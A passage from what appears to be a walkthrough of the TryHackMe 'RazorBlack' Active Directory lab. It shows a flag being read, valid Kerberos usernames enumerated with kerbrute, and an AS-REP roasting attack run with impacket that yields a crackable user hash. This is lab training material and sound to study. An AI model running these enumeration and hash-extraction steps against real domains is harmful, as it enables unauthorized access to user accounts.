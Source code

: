 * in the `sbradley.txt` file it contents a flag.

```bash
┌──(kali㉿kali)-[~/Desktop/RazorBlack]
└─$ sudo cat sbradley.txt 
[sudo] password for kali: 
��THM{ab53e05c9a98def00314a14ccbfa8104}
```

* and for `employee_status.xlsx` file we have a CTF players list.

![](2025-05-31-razorblack-2.png)

* this cloud be used as a list of potential usernames.
* also we got that the earlier found file belong to user `steven bradley` and thus holds his flag.
* plus from this we now know that `ljudmila vetrova` is a Domain Admin.

### Kerberos - 88

* as the kerberos port is open we can perform username enumeration by brute force method using [kerberute](https://github.com/TarlogicSecurity/kerbrute).
* for this we need a username list with permutation of naming contexts.
* but as we have a slight hint from before about what type of naming context is used on target domain.
* from `sbradley.txt` we see it using `(f)(lastname)` syntax.
* thus we create such a permutation for all found usernames.

```bash
┌──(kali㉿kali)-[~/Desktop/RazorBlack]
└─$ ./../opt/Windows/kerbrute_linux_amd64 userenum --dc 10.10.166.83 -d raz0rblack.thm usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 06/07/23 - Ronnie Flathers @ropnop

2023/06/07 03:41:55 >  Using KDC(s):
2023/06/07 03:41:55 >  	10.10.166.83:88

2023/06/07 03:41:56 >  [+] VALID USERNAME:	 lvetrova@raz0rblack.thm
2023/06/07 03:41:56 >  [+] VALID USERNAME:	 twilliams@raz0rblack.thm
2023/06/07 03:41:56 >  [+] VALID USERNAME:	 sbradley@raz0rblack.thm
2023/06/07 03:41:56 >  Done! Tested 24 usernames (3 valid) in 0.772 seconds
```

* Yayy, we found 3 users.
* one is a Domain Admin, second a Web specialist and last one a `STEGO` specialist.
* as we have no more attack surface left for us to enumerate we will try AS-REP roasting attack to get hash of a user who is set for `UF_DONT_REQUIRE_PREAUTH`.

```bash
┌──(kali㉿kali)-[~/Desktop/RazorBlack]
└─$ impacket-GetNPUsers raz0rblack.thm/ -usersfile found_users.txt -format john   
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User lvetrova doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$twilliams@RAZ0RBLACK.THM:a7a8c49202ec549652c550e5a3723133$d1b67b3a0821fcd3b37ab99d29c764b689c27b25aef78efae70013c8b3510ef07136388e7e868828c8bb5114c5cb7df812b97defc34a45eda5872029b2c4230933d3683a06dc0b48f61ac0712692783827396fe293e5ec01c391753cc9fd8177f1e4f51843ce021a45b98e67b2212985f4a81c635fdd91a3447c8fc8d68ac32d158edf8e386f73ce21ad8989bc033c263c5499a250414080579531807835368665be4107c0462ec8a570ce723e9a2f08d317932bbe0882c0e0e7aeb94c77f9223e9f41387004876a0e48797dfb51bc9da533deffe6c3fe7279f3aac79f511a91af8d695c39868b4ddbada857868f42d0
[-] User sbradley doesn't have UF_DONT_REQUIRE_PREAUTH set
```
